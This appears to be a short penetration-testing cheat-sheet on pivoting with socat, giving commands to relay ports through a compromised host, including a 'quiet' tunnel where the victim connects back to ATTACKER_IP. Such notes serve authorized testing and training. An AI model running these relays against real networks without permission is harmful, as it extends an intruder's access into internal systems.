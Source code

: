 ```yaml
---
description: Create Tunnel and Forward port using Socat.
---
```


# Socat

### Local Port forwarding

Connect to port \<compromised\_host\_port> on the compromised host and have our connection directly relayed to our intended target of :\<target\_ip>:\<target\_port>.

```bash
./socat tcp-l:<compromised_host_port>,fork,reuseaddr tcp:<target_ip>:<target_port> &
```

* `fork`: put every connection into a new process
* `reuseaddr`: the port stays open after a connection is made to it

### Quiet port forwarding

```bash
# creating a local port relay on the Attacker machine
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

# on the compromised machine
# create a relay server 
./socat tcp:ATTACKER_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

You can access the target server into localhost:ATTACKING\_PORT.

> **Static Binary:** https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat
